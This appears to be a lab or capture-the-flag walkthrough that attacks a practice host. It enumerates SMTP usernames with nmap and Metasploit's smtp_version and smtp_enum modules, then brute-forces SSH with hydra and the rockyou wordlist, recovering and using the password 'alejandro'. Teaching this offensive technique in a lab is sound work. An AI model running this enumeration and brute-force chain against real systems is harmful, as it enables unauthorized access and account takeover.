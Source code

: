 # Enumerating SMTP server

For an SMTP server, we can try to find out what usernames are able to log in on the SMTP server. By knowing the usernames this can help us to try to exploit other services like in this example the ssh server.

Do some nmap scan on the computer and check out all the services it's running, but here we are interested into

    nmap -p- -A 10.10.141.91

Which output:

```commandline
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-01 12:00 CEST
Nmap scan report for 10.10.141.91
Host is up (0.030s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 62:a7:03:13:39:08:5a:07:80:1a:e5:27:ee:9b:22:5d (RSA)
|   256 89:d0:40:92:15:09:39:70:17:6e:c5:de:5b:59:ee:cb (ECDSA)
|_  256 56:7c:d0:c4:95:2b:77:dd:53:d6:e6:73:99:24:f6:86 (ED25519)
25/tcp open  smtp    Postfix smtpd
|_smtp-commands: polosmtp.home, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8,
| ssl-cert: Subject: commonName=polosmtp
| Subject Alternative Name: DNS:polosmtp
| Not valid before: 2020-04-22T18:38:06
|_Not valid after:  2030-04-20T18:38:06
|_ssl-date: TLS randomness does not represent time
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/1%OT=22%CT=1%CU=38188%PV=Y%DS=2%DC=T%G=Y%TM=610670D0
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M505ST11NW7%O2=M505ST11NW7%O3=M505NNT11NW7%O4=M505ST11NW7%O5=M505ST11
OS:NW7%O6=M505ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(
OS:R=Y%DF=Y%T=40%W=F507%O=M505NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: Host:  polosmtp.home; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 554/tcp)
HOP RTT      ADDRESS
1   30.26 ms 10.8.0.1
2   30.39 ms 10.10.141.91

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.97 seconds
```

Start Metasploit with `msfconsole` and then do a search for the `smtp_version` module.

```
msf6 > search smtp_version

Matching Modules
================

   #  Name                                 Disclosure Date  Rank    Check  Description
   -  ----                                 ---------------  ----    -----  -----------
   0  auxiliary/scanner/smtp/smtp_version                   normal  No     SMTP Banner Grabber


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/smtp/smtp_version
```

Use the smtp_version module:

    use auxiliary/scanner/smtp/smtp_version

Look at what options should be set with `show options`, which in turn shows:

```
Module options (auxiliary/scanner/smtp/smtp_version):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS   10.10.141.91     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    25               yes       The target port (TCP)
   THREADS  1                yes       The number of concurrent threads (max one per host)
```

Set the required options but use `setg` to set it globally as otherwise we will have to set this variable each time we switch of module, and like we will switch of module a few times:

    setg RHOSTS 10.10.141.91

Run the `smtp_version` exploit to get more information:

```
[+] 10.10.141.91:25       - 10.10.141.91:25 SMTP 220 polosmtp.home ESMTP Postfix (Ubuntu)\x0d\x0a
[*] 10.10.141.91:25       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

So now we know that the mail name is `polosmtp.home` and that the MTA  (Mail Transfer Agent) is `Postfix`.

Now we are ready to try to enumerate the smtp server to see what username are available. for this we will use the `auxiliary/scanner/smtp/smtp_enum` module. Use `search smtp_enum` and then `use` (select) it like we have done with the previous enumeration.

Now we're going to be using the "top-usernames-shortlist.txt" wordlist from the Usernames subsection of seclists (/usr/share/wordlists/SecLists/Usernames if you have it installed).

Seclists is an amazing collection of wordlists. If you're running Kali or Parrot you can install seclists with: `sudo apt install seclists` Alternatively, [you can download the repository from here](https://github.com/danielmiessler/SecLists).

Look to what options we should set with `show options`:

```commandline
msf6 auxiliary(scanner/smtp/smtp_enum) > show options

Module options (auxiliary/scanner/smtp/smtp_enum):

   Name       Current Setting                                    Required  Description
   ----       ---------------                                    --------  -----------
   RHOSTS     10.10.141.91                                       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      25                                                 yes       The target port (TCP)
   THREADS    1                                                  yes       The number of concurrent threads (max one per host)
   UNIXONLY   true                                               yes       Skip Microsoft bannered servers when testing unix users
   USER_FILE  /usr/share/metasploit-framework/data/wordlists/un  yes       The file that contains a list of probable users accounts.
              ix_users.txt
```

So we know now that we need to adjust the USER_FILE variable to the patch of our `/usr/share/wordlists/SecLists/Usernames` file. This file contains a long list with different user names.

    set USER_FILE /usr/share/seclists/Usernames/top-usernames-shortlist.txt

Now we can run this exploit with  `run` or `exploit` like you want, it's the same thing (alias). This can take a moment, depending of how many users there are on the system. Here in this case there are not many users at all so it only last for a few seconds to finish. Once the exploit finished you will get a list of usernames:

```
[*] 10.10.141.91:25       - 10.10.141.91:25 Banner: 220 polosmtp.home ESMTP Postfix (Ubuntu)
[+] 10.10.141.91:25       - 10.10.141.91:25 Users found: administrator
[*] 10.10.141.91:25       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

From here we are finished with enumerating (finding out usernames on the system). So we can `exit` the Metasploit console. As we saw previously in our `nmap` scan, there's a `ssh` server running on this same computer, so we can now try to bruteforce this ssh server and get in. However, we could have also tried to bruteforce the smtp password with `hydra`. But it's more interesting to bruteforce the `ssh` server as this gives us `shell` access to our victims host. 

To bruteforce the `ssh` server login, we will use `hydra`.

    hydra -t 16 -l  administrator -P /usr/share/wordlists/rockyou.txt -vV 10.10.141.91 ssh

After some time we get the answer to our question :-D  I have stripped out irrelevant information:

```commandline
[22][ssh] host: 10.10.141.91   login: administrator   password: alejandro
```

From here on, we can now login to the ssh server with user `administrator` and password `alejandro`.

```commandline
ssh administrator@10.10.141.91
```
